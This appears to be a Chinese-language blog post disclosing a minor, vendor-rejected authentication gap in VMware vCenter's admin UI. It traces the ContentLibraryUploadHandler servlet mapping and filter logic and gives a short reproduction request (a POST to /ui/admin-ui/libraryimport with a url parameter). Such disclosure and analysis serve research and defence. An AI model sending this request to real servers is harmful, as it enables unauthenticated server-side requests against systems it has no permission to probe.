

### 1、写在前面

很鸡肋的洞，在 v6.7.0/v7.0 均测试过，不影响最新版。虽然这个洞被官方拒绝了，但是想到自己也是在上面花了时间的，不想让它烂在笔记软件里，所以就分享出来图个乐。

这个洞的结局


### 2、漏洞详情

- com.vmware.vsphere.client.h5.admin.controllers.ContentLibraryUploadHandler#doRequest

bean定义

- /h5-admin-ui/WEB-INF/spring/bundle-context.xml

```
<bean id="contentLibraryUploadServlet"  
      class="com.vmware.vsphere.client.h5.admin.controllers.ContentLibraryUploadHandler">  
   <property name="keystoreService" ref="keystoreService"/>  
</bean>
```


url定义

- /h5-admin-ui/WEB-INF/web.xml

```
<servlet-mapping>  
   <servlet-name>contentLibraryUploadServlet</servlet-name>  
   <url-pattern>/libraryimport</url-pattern>  
</servlet-mapping>
```


web-conextpath 定义

- /h5-admin-ui/META-INF/MANIFEST.MF

```
Web-ContextPath: ui/admin-ui
```


- 漏洞复现

```
POST /ui/admin-ui/libraryimport

url=https://ip:port
```



注：https （鸡肋程度 +1）


- 漏洞原理

原理：

正常情况，会加上session的判断


而 ContentLibraryUploadHandler 唯一经过的filter判断是 com.vmware.vise.security.SessionManagementFilter

但是


这里并不会进入 if 语句的判断，直接进入doFilter，后续的处理流程中也没有鉴权操作。